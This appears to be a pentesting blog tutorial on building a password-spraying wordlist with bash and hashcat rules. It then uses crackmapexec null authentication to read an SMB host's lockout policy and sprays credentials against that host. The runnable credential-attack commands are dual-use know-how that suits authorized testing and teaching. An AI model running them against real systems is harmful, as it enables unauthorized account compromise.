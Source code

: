 # Using Hashcat and a bit of Bash to generate password lists


<!-- {{< image src="/img/hashcat-logo.png" alt="Hashcat Logo" position="center" style="border-radius: 8px;" >}} -->

Let's use hashcat to generate a custom word-list we can make use of with password spraying attacks. Users typically have passwords that have a set pattern, such as if a company has a policy of resetting passwords monthly it is not surpring to find that users have their password contain the current Month of the year. Prehaps a companies password policy is longer you could then expect users to use seasons as part of their password.

Lets start with quickly adding all the months into a "candidate" file we can do this with a quick python one-liner. 
```bash
python -c "import calendar;[print(calendar.month_name[i]) for i in range(1,13)]" > candidate.passwords
```
Lets go ahead and add some more common passwords

`vim candidate.passwords`
{{< admonition type=example title="Our wordlist" open=true >}}
January

February

March

April

May

June

July

August

September

October

November

December

Password

P@ssw0rd

Secret

123456

123456789

qwerty

111111

12345678

abc123

1234567

password1

12345

iloveyou

monkey

dragon
{{< /admonition >}}

At this point you'll want to add that extra spice to this list by doing some OSINT on your target. Adding things such as the company name, or even the name of the technology/tool you are trying to break into. Additional using a tool like [CeWL](https://github.com/digininja/CeWL/) is great for pulling lots of data from a website and generating an even bigger wordlist.

Lets add even more entropy to our new password list by adding the year to the end of each candidate password and then an ! to the end of each potential passwords.

## Add the year to end of each password
```bash
for i in $(cat candidate.passwords); do echo $i; echo ${i}2020; done >  tmp; cp tmp candidate.passwords 
```
## Add an ! to end of each password
```bash
for i in $(cat candidate.passwords); do echo $i; echo ${i}\!; done > tmp; cp tmp candidate.passwords 
```
 Finally to really add some randomness to our custom list we can use hashcat and some rule files to generate thousands of variants of our candidate passwords. To do so we use the `--stdout` flag in hashcat to print the output to, surprisingly, standout. One of the great features of hashcat is the ability to use a rule file to generate variance. This is done by giving setting the `-r` flag and a path to your rule file.

 You can find lots of rule files in the hashcat github [repo](https://github.com/hashcat/hashcat/tree/master/rules) but for this example we will just use the [best64.rule](https://github.com/hashcat/hashcat/blob/master/rules/best64.rule)

 ## Lets quickly download the rules with `wget`

 ```bash
wget https://raw.githubusercontent.com/hashcat/hashcat/master/rules/best64.rule
 ```

Now lets apply our rules with hashcat. Notice `--force` flag to ensure hashcat runs even with a CPU.
```bash
hashcat --force --stdout candidate.passwords -r best64.rule > password.list
```
We should now have thousands of words in this password list now. We can can go futher and even change additional rule files to get even more variants on what started out as simply the months of the year and some common passwords.

We now have thousands of passwords which is too many for a password spraying attack. We can use bash to cut down on some of the fat.

## Fine tuning the list
### Remove duplicate passwords
```bash
cat password.list | sort -u > tmp; cp tmp password.list
```

### Keep passwords that are over a certain length
```bash
cat password.list | awk 'length($0) > 7' > tmp; cp tmp password.list
```

Now we have prepared our password list before using it we should check the password policy. Just incase we block a user out of their account due to too many failed authentication attempts. If we were attack a windows machine we can use [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) to check the password policy for a SMB share.

```bash
crackmapexec smb 192.168.1.25 --pass-pol
```

If that does not work you can try a null authentication, this tends to work on windows servers that have been upgraded from 2003. This is due for new domain installations not allowing by default null authentication.

```bash
crackmapexec smb 192.168.1.25 --pass-pol -u '' -p ''
```
```bash
CMB 192.168.1.25:445 DOMAIN    [*] Windows 10.0 Build 14393 (name:DOMAIN) (domain:FOO)
CMB 192.168.1.25:445 DOMAIN    [+] Dumping password policy
CMB 192.168.1.25:445 DOMAIN    Minimum password length: 7
CMB 192.168.1.25:445 DOMAIN    Password history length: 24
CMB 192.168.1.25:445 DOMAIN    Maximum password age: 42 days 23 hours 52 minutes
CMB 192.168.1.25:445 DOMAIN    Minimum password age: 23 hours 52 minutes
CMB 192.168.1.25:445 DOMAIN    Account lockout threshold: 0
CMB 192.168.1.25:445 DOMAIN    Account lockout duration: None
```

Things to look out for in the output would be the minimum password length, we could use this to tune our password list and the information on account lockouts. Which in the above example is set to 0 hence we are safe to spray our passwords without the fear of locking out users.

You are now ready to begin your attack. In the case of windows SMB you could use either:

#### crackmapexec
```bash
crackmapexec smb 192.168.1.25 -u user.list -p password.list
```
or metasploit console has a nice module called `smb_login`.


There is many ways you could expand this further to create more precise wordlists against your target. Doing good recon on a target can yeild some great potential passwords, such as including user names, birthdays. Obviously there is infinite possibilites but these techniques can be used to quickly generate at least some of those infinite possibilites.



## References
1. [ippsec - forest](https://www.youtube.com/watch?v=H9FcE_FMZio)


